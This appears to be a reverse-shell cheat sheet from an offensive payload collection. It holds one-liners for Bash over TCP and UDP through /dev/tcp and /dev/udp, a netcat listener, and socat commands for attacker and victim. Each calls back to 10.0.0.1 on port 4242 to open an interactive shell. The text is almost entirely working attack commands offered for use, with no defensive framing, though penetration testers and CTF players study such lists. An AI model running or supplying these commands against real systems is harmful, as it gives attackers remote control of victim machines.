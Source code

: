 # Reverse Shell
## Bash TCP
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```
## Bash UDP
```Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```
Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

## Socat
```user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
